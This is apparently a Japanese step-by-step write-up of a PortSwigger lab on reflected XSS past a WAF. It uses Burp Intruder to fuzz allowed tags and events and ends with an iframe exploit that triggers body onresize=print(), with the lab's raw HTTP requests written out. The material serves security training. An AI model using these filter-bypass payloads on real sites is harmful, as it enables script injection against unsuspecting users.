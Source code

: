 # ほとんどのタグと属性がブロックされた状態で XSS を HTML コンテキストに反映

このラボには、検索機能に 反映された XSS 脆弱性が含まれていますが、Web アプリケーション ファイアウォール (WAF) を使用して一般的な XSS ベクトルから保護します。  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked

- 1. Burp Suite を起動して Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. 検索窓に以下を入力し検索しようとすると失敗します

```
<img src=1 onerror=print()>
```

結果

```
"Tag is not allowed"
```

- 4.GET /?search=%3Cimg+src%3D1+onerror%3Dprint%28%29%3E リクエストを send to intruder します

* 5. リクエストを以下のように書き換えます
     [変更前]

```
GET /?search=%3Cimg+src%3D1+onerror%3Dprint%28%29%3E HTTP/2
Host: 0a6500c304f1da4d8186571d00800071.web-security-academy.net
Cookie: session=CYPyIzeysT6iI7agbeasg9N3n1nWHb39
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6500c304f1da4d8186571d00800071.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

[変更後]

```
GET /?search=<§§> HTTP/2
Host: 0a6500c304f1da4d8186571d00800071.web-security-academy.net
Cookie: session=CYPyIzeysT6iI7agbeasg9N3n1nWHb39
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6500c304f1da4d8186571d00800071.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 6. payload タブに移動し、以下のチートシートの Copy tags to clibboard をコピーします
     https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

- 7. payload setting にコピーしたデータを張り付けて、攻撃を開始します

* 8. body タグを受け付けるので、リクエストを次のように書き換えます
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/b3c3eb85-7f7c-42bd-9ca5-a4db7c0bdf9b)

```
GET /?search=<body%20§§=1> HTTP/2
Host: 0a6500c304f1da4d8186571d00800071.web-security-academy.net
Cookie: session=CYPyIzeysT6iI7agbeasg9N3n1nWHb39
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6500c304f1da4d8186571d00800071.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 9. 今度は以下のチートシートの Copy events to clibboard をコピーします
     https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

* 10. payload setting にデータをクリアしてから、コピーしたデータを張り付けて、攻撃を開始します
      ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/a9de7a48-b8c8-41ca-b463-a6d9f622d731)

- 11. expoit サーバーに移動して、以下のリクエストを張り付けます

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload="this.style.width" ="100px"></iframe>
```

![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/f3d1d48c-c1af-4d8c-889c-c80619b52b4d)

- 12. Store ボタン →Deliver exploit to victim ボタンの順に押します。
